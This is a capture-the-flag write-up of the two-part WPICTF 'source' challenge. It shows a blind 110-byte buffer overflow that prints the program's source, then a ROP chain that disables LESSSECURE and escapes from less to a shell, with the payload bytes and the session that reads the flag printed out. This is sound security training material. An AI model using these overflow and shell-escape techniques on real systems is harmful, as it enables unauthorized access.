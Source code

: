 # Source part1, part2
## TLDR
- Part1: send "A"*110
- Part2: build rop to "setenv(LESSSECURE, "NULL", 1) -> spawn less -> !sh
## Summery of this problem
1. connect ssh
2. input password
3. if it's OK, exevcp "less source.c"


```
$ ssh source@source.wpictf.xyz -p 31337
source@source.wpictf.xyz's password: 
Enter the password to get access to https://www.imdb.com/title/tt0945513/
im bob
Pasword auth failed
exiting
Connection to source.wpictf.xyz closed.
```

## Part1
We have no binary so this is blind challenge.  
First, I tried some stirngs like,
```
$ ssh source@source.wpictf.xyz -p 31337
source@source.wpictf.xyz's password: 
Enter the password to get access to https://www.imdb.com/title/tt0945513/
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyA
Connection to source.wpictf.xyz closed.
```
There are no response if the input length is too long. So, there is BoF here.  
Next, I try to adjust the length and if length = 110,

```
$ ssh source@source.wpictf.xyz -p 31337
source@source.wpictf.xyz's password: 
Enter the password to get access to https://www.imdb.com/title/tt0945513/
AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMA
#define _GNU_SOURCE
#include <stdio.h>
#include <unistd.h>

#include <stdlib.h>
#include <string.h>

//compiled with gcc source.c -o source -fno-stack-protector -no-pie
//gcc (Ubuntu 7.3.0-27ubuntu1~18.04) 7.3.0

//flag for source1 is WPI{Typos_are_GrEaT!}
int getpw(void){
        int res = 0;
        char pw[100];

        fgets(pw, 0x100, stdin);
        *strchrnul(pw, '\n') = 0;
        if(!strcmp(pw, getenv("SOURCE1_PW"))) res = 1;
        return res;
}

char *lesscmd[] = {"less", "source.c", 0};
int main(void){
        setenv("LESSSECURE", "1", 1);
        printf("Enter the password to get access to https://www.imdb.com/title/tt0945513/\n");
        if(!getpw()){
                printf("Pasword auth failed\nexiting\n");
                return 1;
        }

        execvp(lesscmd[0], lesscmd);
        return 0;
}
source.c (END)

```
flag:WPI{Typos_are_GrEaT!}


## Part2
Now we have source.c. Let's compile with gcc in native ubuntu18.04. # And I could't do this on time :((((
In this binary, there are no strigns like "/bin/sh" nor we have no write gadget like "mov [rax], rsi", so that we can't spawn shell.   
There is "!" command in "less". By using this function, we can spawn shell. But "setenv("LESSSECURE", "1", 1);" prevents us from the shell.  

So, the solution is,
1. get ret addr using BoF
2. build rop to setenv("LESSSECURE", "NULL", 1); # NOT "0"!!! see solve.py for detail.
3. spawn "less"

Care when spawning shell, we can't input with default key. Use "Ctrl + Enter" to input Enter. # I don't know why.

```
[*] Switching to interactive mode

AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA^A^@^@^@^@^@^@^@<^H@^@^@^@^@^@0^P`^@^@^@^@^@\x83^H@^@^@^@^@^@\xa0^P`^@^@^@^@^@^A^@^@^@^@^@^@^@ ^H@^@^@^@^@^@AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\xb4^G@^@^@^@^@^@
$ ls
ls
flag.txt  run_problem.sh  source  source.c
$ cat f*
cat f*
WPI{lesssecure_is_m0resecure}
``` 
flag:WPI{lesssecure_is_m0resecure}
